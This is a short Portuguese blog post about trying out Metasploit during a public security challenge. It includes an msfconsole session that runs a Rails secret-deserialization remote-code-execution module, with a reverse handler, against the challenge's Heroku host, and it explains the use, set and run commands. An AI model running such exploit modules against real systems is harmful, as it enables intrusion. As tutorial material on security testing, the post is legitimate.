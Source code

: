 ```yaml
---
title: "[Small Bite] Brincando com Metasploit"
date: '2014-08-27T14:03:00-03:00'
slug: small-bite-brincando-com-metasploit
tags:
- metasploit
- security
draft: false
---
```


Ontem o [@joernchen](https://twitter.com/joernchen) mandou um pequeno [desafio básico de segurança](https://twitter.com/joernchen/status/504304803045208064) pra comunidade. Ele postou um código de uma pequena aplicação, colocou ela no ar, e nos desafiou a resetar a senha do administrador.
  
Confesso que demorei mais do que gostaria mas no fim eu consegui - e foi simples (post sobre isso vem depois).
  
No caminho eu acabei explorando o [Metasploit](http://www.metasploit.com), provavelmente um dos melhores e mais conhecidos pacotes de testes de penetração de segurança. E alguns não sabem disso mas ele não só é código-aberto (existem ferramentas e serviços pagos) como é uma aplicação Rails! Então vale muito a pena acompanhar esse projeto.

O @joernchen já [contribuiu no código](https://github.com/rapid7/metasploit-framework/commits?author=joernchen) do Metasploit incluindo o famigerado exploit para [Remote Code Execution no Rails](https://github.com/rapid7/metasploit-framework/commit/7f3eccd64453c3708ad4cb7ed7a6ea18354bac3d) (calma, as versões novas já não tem mais isso!)

Instalar o Metasploit no seu sistema é simples. Este [blog post](http://www.darkoperator.com/installing-metasploit-in-ubunt/) descreve como. Ele começa falando para baixar um script que faz tudo mas, se você usa RVM ou RBenv ou não usa Ubuntu, faça na mão, é mais simples. Não vou repetir o que já está no post então acompanhe lá.

No final, você deve ter o metasploit instalado e com o comando <tt>msfconsole</tt> a partir de onde já dá pra começar a brincar. Por exemplo, uma das coisas que eu tentei ver foi se o aplicativo do desafio sofria o problema de remote code execution que mencionei acima, pra isso, uma vez dentro do console eu fiz:

```
msf exploit(rails_json_yaml_code_exec) > use exploit/multi/http/rails_secret_deserialization
msf exploit(rails_secret_deserialization) > set RHOST getthisadmin.herokuapp.com
msf exploit(rails_secret_deserialization) > set TARGETURI /reset/_csrf_token
msf exploit(rails_secret_deserialization) > run
[*] Started reverse handler on 192.168.47.172:4444
[*] Checking for cookie _csrf_token
[!] Caution: Cookie not found, maybe you need to adjust TARGETURI
[*] Trying to leverage default controller without cookie confirmation.
[*] Sending cookie _csrf_token
msf exploit(rails_secret_deserialization) > exit
```

E podemos ver que o problema não é esse. No Metasploit você carrega um dos muitos módulos de exploit que quer explorar (veja [lista no próprio código fonte](https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits/multi/http)). Cada exploit tem várias opções pra configurar (execute <tt>show options</tt> para mostrar as configurações). Use o comando <tt>set</tt> para configurar com o site que quer explorar. Finalmente, rode com <tt>run</tt> para executar e ver se tem o exploit ou não.

Eu mesmo não sou um expert em segurança mas conheço o básico e explorar o Metasploit pode ser uma excelente fonte para você entender como funcionam exploits de segurança. O código de cada módulo é em Ruby e é muito fácil de ler.

E já descobriram o desafio do @joernchen? Neste post eu já dei uma grande dica ;-) Comentem se conseguiram, mas não dêem a resposta ainda pra todo mundo poder testar.
